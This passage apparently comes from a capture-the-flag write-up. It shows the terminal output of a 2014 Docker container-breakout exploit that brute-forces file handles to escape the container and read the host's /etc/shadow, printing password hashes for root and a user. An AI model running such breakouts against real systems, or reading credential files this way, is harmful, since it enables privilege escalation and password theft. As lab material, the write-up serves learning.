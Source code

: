     root@c150397ccd63:~# ./so
    [***] docker VMM-container breakout Po(C) 2014             [***]
    [***] The tea from the 90's kicks your sekurity again.     [***]
    [***] If you have pending sec consulting, I'll happily     [***]
    [***] forward to my friends who drink secury-tea too!      [***]

    <enter>

    [*] Resolving 'etc/shadow'
    [*] Found lib32
    [*] Found ..
    [*] Found lost+found
    [*] Found sbin
    [*] Found bin
    [*] Found boot
    [*] Found dev
    [*] Found run
    [*] Found lib64
    [*] Found .
    [*] Found var
    [*] Found home
    [*] Found media
    [*] Found proc
    [*] Found etc
    [+] Match: etc ino=393217
    [*] Brute forcing remaining 32bit. This can take a while...
    [*] (etc) Trying: 0x00000000
    [*] #=8, 1, char nh[] = {0x01, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
    [*] Resolving 'shadow'
    [*] Found modules-load.d
    [*] Found lsb-release
    [*] Found rsyslog.conf
    [*] Found rc6.d
    [*] Found calendar
    [*] Found fstab
    [*] Found shadow
    [+] Match: shadow ino=393228
    [*] Brute forcing remaining 32bit. This can take a while...
    [*] (shadow) Trying: 0x00000000
    [*] #=8, 1, char nh[] = {0x0c, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
    [!] Got a final handle!
    [*] #=8, 1, char nh[] = {0x0c, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
    [!] Win! /etc/shadow output follows:
    root:$6$9GrOpvcijuCP93rg$tkcyh.ZwH5w9AHrm66awD9nLzMHv32QqZYGiIfuLow4V1PBkY0xsKoyZnM3.AI.yGWfFLOFDSKsIR9XnKLbIY1:19066:0:99999:7:::
    daemon:*:18659:0:99999:7:::
    ...[snip]...
    saul:$6$19rUyMaBLt7.CDGj$ik84VX1CUhhuiMHxq8hSMjKTDMxHt.ldQC15vFyupafquVyonyyb3/S6MO59tnJHP9vI5GMvbE9T4TFeeeKyg1:19058:0:99999:7:::



#### Read root.txt
